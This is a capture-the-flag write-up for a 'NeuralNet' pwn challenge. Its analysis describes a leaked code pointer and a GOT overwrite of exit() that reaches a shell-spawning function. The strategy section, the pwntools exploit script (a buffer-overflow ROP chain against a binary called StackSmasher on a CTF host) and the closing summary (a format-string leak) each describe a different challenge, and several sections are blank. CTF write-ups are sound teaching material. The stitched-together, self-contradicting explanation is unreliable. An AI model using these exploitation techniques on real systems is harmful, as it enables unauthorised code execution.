





# NeuralNet - Writeup

---

## Challenge Description



---

## Exploit Demo

This demo shows the exploitation flow:



---

## Challenge Summary

The Neural Net Simulator binary provides a menu-driven interface with several functions, including a debug option that allows arbitrary memory writes by letting the user overwrite a "neuron" address with a new value. The program leaks the address of the predict_outcome function at startup, enabling us to calculate the base address of the binary.

The exploit involves using this leak to compute the binary’s base address and then overwriting the exit() entry in the Global Offset Table (GOT) with the address of the hidden unlock_secret_research_data() function. By selecting option 4 (Exit), the program will call this overwritten GOT entry, granting shell access via system("/bin/sh").

## Binary Information

```bash
$ file NeuralNet
```



```bash
$ checksec NeuralNet
```



---

## Static Analysis (IDA pro)

### Key Functionality

```c
printf("Prediction module address (predict_outcome): %p\n", predict_outcome);
```

[Alt text](img/4.png)

- The program prints the address of `predict_outcome`, which leaks a code pointer and allows calculation of the **binary base address**.

```c
scanf("%lx", &v5);
scanf("%lx", &v4);
*v5 = v4;  // Arbitrary write
```

[Alt text](img/5.png)

- Option 3 ("Neural Intervention") allows the user to write any 64-bit value to any memory address, creating an **arbitrary write primitive**.

```c
if (v3 == 4) {
    exit(0);
}
```

[Alt text](img/6.png)

- Choosing option 4 calls `exit()`. If the GOT entry of `exit()` is overwritten with a custom function like `unlock_secret_research_data()`, it will be executed.

### Hidden Function

```c
int unlock_secret_research_data() {
    return system("/bin/sh");
}
```

[Alt text](img/7.png)

- This hidden function spawns a shell and is not reachable during normal execution. Triggering it requires **overwriting `exit@GOT`** to point to it.

---

## Exploit Strategy

### Step 1: Overflow the Buffer

We exploit the buffer overflow by sending input larger than 32 bytes, overwriting the **return address** and controlling the **RIP** to redirect execution to the `win()` function.

### Step 2: Call `step1()` and `step2()`

After redirecting execution to `win()`, we must:

- Call `step1()` to set `first = 1`.
- Call `step2()` to set `second = 1`.

### Step 3: Trigger the Flag

Once both `first` and `second` are set, the `win()` function will print the flag stored in the `FLAG_VAL` environment variable.

---

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template StackSmasher --host ctf.mf.grsu.by --port 9078
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'StackSmasher')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'ctf.mf.grsu.by'
port = int(args.PORT or 9078)

env_vars = {'FLAG_VAL': 'grodno{dummy_flag}'}

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, env= env_vars, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

offset = 40
payload = flat (
        b'A' * 40,
        exe.symbols['step1'],
        exe.symbols['step2'],
        exe.symbols['win']
)
io.sendline(payload)
io.recvuntil(b'@')
flag = io.recvline().strip(b'"\n')
log.success(f"FLAG : {flag.decode()}")


```

---

## Exploit Output



---

## Vulnerability Summary

- **Format string vulnerability** allows leaking memory using `%p` and `%s`.
- The leaked memory provides the **address of the `FLAG_VAL` environment variable**.
- By reading the leaked address, we can **extract the flag**.

---

## Flag

```
grodno{unCL3_M47V3y_w45_h3R3_w17H_0ld_5Ch00L_3xPL017}
```
